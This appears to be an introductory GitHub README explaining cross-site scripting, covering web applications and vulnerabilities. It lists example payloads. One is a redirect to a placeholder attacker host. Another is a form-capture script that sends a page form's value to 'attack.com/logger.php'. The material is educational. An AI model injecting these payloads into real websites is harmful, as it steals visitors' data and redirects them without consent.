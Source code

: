 <p align="center"><img align="center" width="500" height="500" src="./assets/Cross-site-scripting.gif"/></p>

# Cross-site Scripting

 Before we start talking about Cross-site-scripting (XSS), it's important to talk about what a web applications and vulnerability.
### Web application
    Basically, a web application is a piece of software that runs in a web browser, such as Chrome, Firefox etc. Why understand what a web application is? precisely because Cross-site-scripting (XSS) is caused by flaws in web applications themselves. Like Facebook, Olx etc. 
You can learn more about web application here: https://aws.amazon.com/what-is/web-application/
### Vulnerability
    Vulnerability is precisely a weakness in a web application that is exploited through bugs or the structure of the web application itself, if it has flaws, and it is in these flaws that people with malicious intentions can gain access to sensitive and important data.
You can learn more about vulnerabilities here: https://owasp.org/www-community/vulnerabilities/.
#### XSS
    XSS is an injection attack frequently based on JavaScript, but it can also include HTML or any type of code that our browser can execute. They inject into a web application with the focus of being executed by other users. In this way, it can send malicious code to other people who may mistakenly click on a script that captures sensitive or important information. 


### Payloads
Payloads are basically Javascript codes that we can execute on target users' computers.

Examples of payloads:

```
Basic alert payload:
<script>alert('XSS')</script>


Redirection payload:
<script>window.location='http://attack.com'</script>


Form data capture payload:
<script>document.location='http://attack.com/logger.php?data=' +document.getElementById('form_id').value </script>


```

*